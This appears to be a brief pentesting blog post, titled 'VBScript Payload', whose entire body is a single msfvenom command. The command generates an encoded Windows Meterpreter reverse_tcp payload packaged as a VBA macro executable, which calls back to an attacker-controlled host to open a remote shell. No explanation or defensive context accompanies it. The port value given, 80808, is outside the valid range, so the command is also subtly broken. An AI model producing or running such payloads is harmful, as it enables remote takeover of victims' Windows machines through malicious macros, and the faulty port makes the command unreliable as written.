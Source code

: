 ```yaml
---
layout: post
title: VBScript Payload
categories: [Pentesting]
tags: [Kali, Linux]
description: Visual Basic Script Payload Metasploit Framework
fullview: true
comments: true
---
```


{% highlight yaml %}
$msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.xx LPORT=80808 -e x86/shikata_ga_nai -f vba-exe
{% endhighlight %}
